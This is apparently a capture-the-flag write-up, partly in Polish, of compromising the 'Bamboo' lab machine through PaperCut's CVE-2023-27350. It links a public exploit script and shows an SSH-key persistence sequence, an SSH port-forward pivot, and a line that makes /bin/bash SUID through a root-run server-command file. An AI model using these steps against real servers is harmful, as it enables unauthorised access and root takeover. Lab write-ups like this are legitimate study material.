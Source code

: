 # Bamboo
Linux, Medium, created by **xct**

```
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 83:b2:62:7d:9c:9c:1d:1c:43:8c:e3:e3:6a:49:f0:a7 (ECDSA)
|_  256 cf:48:f5:f0:a6:c1:f5:cb:f8:65:18:95:43:b4:e7:e4 (ED25519)
3128/tcp open  http-proxy Squid http proxy 5.2
|_http-server-header: squid/5.2
|_http-title: ERROR: The requested URL could not be retrieved
```

![{0FAE95AF-9A4B-47D1-A586-3F466A4B4E6C}](https://github.com/user-attachments/assets/8293c651-a796-411f-8068-781122bf6581)

30 minutes scan............

![{EB8BB8F2-AE3F-4372-81B4-13E304B4B16B}](https://github.com/user-attachments/assets/21ef7162-d71d-4f33-8710-6b49b3f7d84a)

![{B4004EC8-E293-4BD3-A500-8F5CD6296D5C}](https://github.com/user-attachments/assets/22bff75f-f20d-4249-ad6c-56eacd6c62de)

NA STARCIE 9174 i 9191 wygląda ciekawie

9174
```
<!doctype html><html lang="en"><head><meta charset="utf-8"/><link rel="shortcut icon" href="./favicon.ico"/><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1,shrink-to-fit=no"/><meta name="theme-color" content="#000000"/><link rel="manifest" href="./manifest.json"/><title>Print Deploy Server UI</title><link href="./static/css/main.440745f5.chunk.css" rel="stylesheet"></head><body><noscript>You need to enable JavaScript to run this app.</noscript><div id="root"></div><script>!function(e){function r(r){for(var n,l,p=r[0],i=r[1],f=r[2],c=0,s=[];c<p.length;c++)l=p[c],Object.prototype.hasOwnProperty.call(o,l)&&o[l]&&s.push(o[l][0]),o[l]=0;for(n in i)Object.prototype.hasOwnProperty.call(i,n)&&(e[n]=i[n]);for(a&&a(r);s.length;)s.shift()();return u.push.apply(u,f||[]),t()}function t(){for(var e,r=0;r<u.length;r++){for(var t=u[r],n=!0,p=1;p<t.length;p++){var i=t[p];0!==o[i]&&(n=!1)}n&&(u.splice(r--,1),e=l(l.s=t[0]))}return e}var n={},o={1:0},u=[];function l(r){if(n[r])return n[r].exports;var t=n[r]={i:r,l:!1,exports:{}};return e[r].call(t.exports,t,t.exports,l),t.l=!0,t.exports}l.m=e,l.c=n,l.d=function(e,r,t){l.o(e,r)||Object.defineProperty(e,r,{enumerable:!0,get:t})},l.r=function(e){"undefined"!=typeof Symbol&&Symbol.toStringTag&&Object.defineProperty(e,Symbol.toStringTag,{value:"Module"}),Object.defineProperty(e,"__esModule",{value:!0})},l.t=function(e,r){if(1&r&&(e=l(e)),8&r)return e;if(4&r&&"object"==typeof e&&e&&e.__esModule)return e;var t=Object.create(null);if(l.r(t),Object.defineProperty(t,"default",{enumerable:!0,value:e}),2&r&&"string"!=typeof e)for(var n in e)l.d(t,n,function(r){return e[r]}.bind(null,n));return t},l.n=function(e){var r=e&&e.__esModule?function(){return e.default}:function(){return e};return l.d(r,"a",r),r},l.o=function(e,r){return Object.prototype.hasOwnProperty.call(e,r)},l.p="./";var p=this["webpackJsonpprinter-deploy-server"]=this["webpackJsonpprinter-deploy-server"]||[],i=p.push.bind(p);p.push=r,p=p.slice();for(var f=0;f<p.length;f++)r(p[f]);var a=i;t()}([])* Connection #0 to host 127.0.0.1 left intact
</script><script src="./static/js/2.eb0f9725.chunk.js"></script><script src="./static/js/main.001f1a22.chunk.js"></script></body></html>
```

na 9191 wygląda to dużo ciekawej

![{08AD61AC-FB70-4227-B985-FF81B3226EA2}](https://github.com/user-attachments/assets/133f8680-520c-4da4-9938-3067bf904690)

![{8588FE8F-FBBB-4B59-BBA9-946D8EE26509}](https://github.com/user-attachments/assets/b42540d1-d6a6-4871-a1b4-cef7462922a3)

![{EADBB826-5ECB-48D5-8927-F4408E84DFC9}](https://github.com/user-attachments/assets/9537e079-5bf8-4925-9cff-ee83af79b116)

![{40808B9A-58DE-4F62-B4DB-C8CF3206B680}](https://github.com/user-attachments/assets/ce90ebb1-9939-4b01-ad0d-fa1a0f0e8c21)

![{7567C6B8-9CC5-4AC6-AE0E-5EB44A3C4E8D}](https://github.com/user-attachments/assets/2bea1ea8-7720-4e22-a682-52511bd32f68)

![{77E2838C-F136-4C9A-AF48-B50E8C8ACF75}](https://github.com/user-attachments/assets/99f0d560-3ac7-4576-96c6-f09aaa76992f)

I am logged in

![{1B0F7181-8FFA-4241-80A3-84803AAD1875}](https://github.com/user-attachments/assets/bb31315a-33c8-4f01-8011-56f8a1d0ff7c)

so.. try to find some more usfull exploit
https://raw.githubusercontent.com/horizon3ai/CVE-2023-27350/refs/heads/main/CVE-2023-27350.py

![{A8C3CBFE-71BD-43AC-B9D1-E20CBAD46AE1}](https://github.com/user-attachments/assets/d32762ef-8a0c-4cb9-aa16-6471b1604180)

works

![{54C86C97-C30B-4FC6-8003-0F6E7B3C7B17}](https://github.com/user-attachments/assets/85d2fb4c-8ed7-4b98-8783-b44046ce5e15)

some problmes qith rev shelll ech

![{4424678A-B3C2-4DAE-BB00-74EA5B384BEB}](https://github.com/user-attachments/assets/0ff183ea-81d5-4e08-ad0c-876e8f7a2611)

![{FBF2E968-307D-40E5-A12B-93BA2DB432D8}](https://github.com/user-attachments/assets/c93ef51f-4b22-410f-8cbd-efd65267bfb3)

Jesteśmy
![{5197969D-1549-48C2-AF30-DBE105D01592}](https://github.com/user-attachments/assets/0985087a-5c17-4c31-8c4c-d561f06a5fe3)

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
11  mkdir .ssh
   12  cd .ssh
   13  ssh-keygen
   14  cat id_rsa
   15  cp id_rsa.pub authorized_keys
```

![{4B2D2000-AE49-4157-ACA4-0D540DA9B64F}](https://github.com/user-attachments/assets/c8978631-2562-4e8b-8755-47749fb8726f)

od razu lepiej

![{36C1F303-CEF5-488D-814A-51C04E13D603}](https://github.com/user-attachments/assets/95cac851-e3a6-4266-bc57-cf46a13f1ff5)

jeden plik należy do roota i ma SUID. Ciekawe

wrzucam na mszynkę https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
- chwilę poczekałem i nic nie widzę :/

![{8CD28F1A-4025-4640-B72D-F2474B785625}](https://github.com/user-attachments/assets/5e43431f-4ca4-491f-b0d5-cef850f5f777)

to wygląda jak coś co lata w pracesach, nie nie wiem czy to usefull

jak lata to spróbuję coś wrzucić
```
echo 'chmod +s /bin/bash' >> server-command
```

- po kilku minutach brak reakcji. Pewnie trzeba ztriggerować

z tego co czytam to jakąś akcję trzeba wykonać na serwerze (9191)

https://www.papercut.com/help/manuals/ng-mf/common/tools-server-command/
https://printing.its.uiowa.edu:9192/content/help/common/topics/tools-server-command.html

żeby było prościej to pivoting przez ssh
```
ssh papercut@10.10.65.147 -i id_rsa -L 9191:127.0.0.1:9191
```

![{3877CE56-BC91-4493-8FAD-0090E36AB07B}](https://github.com/user-attachments/assets/966cd86d-7a6f-492b-b497-bdd1c81dc24d)

Wehn I enter this page I root SUID bash

![{9D2F5291-36AD-4506-ABD8-915E7629D18C}](https://github.com/user-attachments/assets/dee5118c-2b59-4cc1-950e-f5d72d9e3cfb)


